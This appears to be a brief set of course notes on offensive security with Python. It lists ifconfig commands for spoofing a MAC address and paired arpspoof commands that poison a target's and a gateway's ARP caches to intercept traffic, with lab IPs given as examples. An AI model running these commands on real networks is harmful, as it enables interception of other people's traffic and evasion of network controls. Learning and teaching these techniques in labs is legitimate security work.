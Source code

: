 # Offensive Security Python
> From Zaid Sabih

Topics
- Changing MAC Address 
- ARP Spoofing

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

--- 
### python3

pip3 install scapy-python3
